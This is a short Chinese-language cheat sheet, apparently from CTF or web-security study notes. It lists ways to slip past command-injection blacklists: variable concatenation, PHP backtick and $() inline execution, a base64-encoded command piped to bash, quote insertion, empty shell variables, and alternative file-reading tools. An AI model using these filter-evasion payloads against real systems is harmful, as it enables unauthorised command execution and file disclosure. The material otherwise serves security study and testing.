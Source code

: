 例如：

```shell
a=l;b=s;$a$b
```

利用偶读拼接方法绕过黑名单：

```shell
a=fl;b=ag;cat $a$b
```

利用.拼接绕过`(sy.(st).em)`

使用内敛执行代替system

```php
echo `ls`;
echo $(ls);
?><?=`ls`;
?><?=$(ls);
<?=`ls /`;?>   #等效于<?php echo `ls /`;?>
```

### -- 编码绕过

```
echo "Y2F0IGZsYWc="|base64 -d|bash
-d是解码，是base64解码

xxd - r -p可以转换16进制，同样用户管道符之后。
```

### -- 单引号和双引号绕过

```shell
比如ca''t flag或cat""t flag
```

### -- 利用shell特殊变量绕过

使用`$*`和`$@`，`$x`(x代表1-9)，`${x}`(x>=10)。

PS：因为在没有传参的情况下，上面的特殊变量都是为空的

比如`ca$@t fla$@g`或者`ca$1t fla$2g`

### -- linux中直接查看文件内容的工具

```
 cat、tac、more、less、head、tail、nl、sed、sort、uniq、rev、cut、awk
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
```
